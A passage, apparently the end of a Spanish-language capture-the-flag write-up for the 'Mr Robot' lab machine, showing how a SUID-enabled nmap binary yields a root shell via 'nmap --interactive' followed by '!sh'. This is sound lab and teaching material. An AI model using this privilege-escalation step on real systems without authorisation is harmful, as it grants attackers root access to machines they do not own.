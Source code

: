 Y si abrimos la primera página que nos muestre encontraremos la siguiente información 

![[SUID-nmap.png]]

Si ejecutamos el primer comando nos dara acceso como usuarios `root` y si hacemos un `!sh` tendremos un consola interactiva de shell

```bash
nmap --interactive
!sh
```

Y listo amigos con esto estaría resuelta la máquina de Mr Robot.